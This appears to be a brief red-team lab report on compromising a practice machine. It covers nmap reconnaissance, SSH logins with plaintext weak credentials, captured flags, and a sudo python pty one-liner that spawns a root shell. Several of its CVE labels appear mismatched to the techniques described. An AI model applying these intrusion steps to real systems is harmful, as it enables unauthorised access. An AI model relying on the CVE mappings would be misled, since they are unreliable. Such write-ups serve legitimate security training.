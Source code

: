 # **Offensive Report**

## **_Table of Contents_**:

* Exposed Services
* Critical Vulnerabilities
* Exploitation

## **_Exposed Services_**:

_Nmap scan results for each machine reveal the below services and OS details_:

* $ nmap -sV -sC 192.168.1.110

This scan identifies the services below as potential points of entry:

* Port 22 SSH
* Port 80 HTTP

## **_List of Exposed Services_**:

The following vulnerabilities were identified on target 1:

![Nmap Scan](../Images/RedTeam/NmapScan.PNG)

## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

### flag1.txt: _b9bbcb33e11b80be759c4e844862482d_

Exploit Used:

Derby and Recon

### flag2.txt: _fc3fd58dcdad9ab23faca6e9a36e581c_

Exploit Used:

Exposed Username And Weak Password (CVE-2017-7760)(High)

`ssh michael@192.168.1.110`

`password: michael`

### flag3.txt: _afc01ab56b50591e7dccf93122770cd2_

Exploit Used:

SSH Remote Login (CVE-2021-28041)(High)

`ssh steven@localhost`

`password: pink84`

HTML Password Hash Disclosure (CVE-2019-15653)(High)

### flag4.txt: _715dea6c055b9fe3337544932f2941ce_

Exploit Used:

Python Privilege Escalation (CVE-2018-1000030)(Low)

`sudo python -c 'import pty;pty.spawn("/bin/bash");'`

